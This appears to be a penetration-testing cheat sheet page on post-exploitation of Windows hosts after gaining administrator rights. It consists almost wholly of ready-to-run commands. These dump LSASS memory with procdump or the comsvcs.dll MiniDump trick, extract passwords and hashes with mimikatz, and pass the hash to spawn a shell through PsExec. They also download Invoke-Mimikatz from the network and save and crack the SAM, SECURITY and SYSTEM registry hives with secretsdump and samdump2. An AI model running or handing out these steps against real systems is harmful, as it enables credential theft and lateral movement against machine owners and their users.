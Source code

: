 ```yaml
---
layout: default
title: Windows Post-Admin
tags:
    - administrator
    - certificates private keys
    - credentials
    - in memory
    - kerberos tickets
    - local security authority subsystem service
    - LSASS
    - mimikatz
    - pass-the-hash
    - passwords
    - procdump
    - root
    - nt\system
---
```

# Windows Post-Admin
## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg.exe save hklm\sam <output path>
reg.exe save hklm\security <output path>
reg.exe save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```
